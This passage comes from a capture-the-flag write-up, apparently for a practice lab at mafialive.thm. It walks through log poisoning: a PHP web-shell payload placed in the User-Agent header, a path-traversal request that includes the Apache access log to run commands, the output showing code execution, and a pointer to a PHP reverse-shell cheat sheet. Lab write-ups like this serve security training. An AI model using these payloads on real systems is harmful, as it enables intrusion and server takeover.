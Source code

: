 I check to see if I can use **log poisioning** to gain code execution and it works. To do this intercept a request in burp, change your user agent to the following:

```
User-Agent: Mozilla/5.0 <?php system($_GET['c']); ?> Firefox/91.0
```

And then add a command to the GET request:

```
GET /test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache2/access.log&c=id HTTP/1.1
```

Then send the request through. Once you do you should get the following back and can see that the **id** command was inserted into the middle of the **user-agent**:

```
10.6.127.197 - - [23/Feb/2022:21:41:12 +0530] "GET /test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache2/access.log&c=id HTTP/1.1" 200 807 "http://mafialive.thm/test.php" "Mozilla/5.0 uid=33(www-data) gid=33(www-data) groups=33(www-data)
 Firefox/91.0"
```

Now that we have RCE we should be able to get a shell on the system. I look up a quick oneliner PHP reverse shell on [**PayloadsAllTheThings**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php) and pick the first one under the **PHP** section. I then **URL encode** it and send the request through **burp** and get a shell back:

<br>

![](images/archangel9.png)
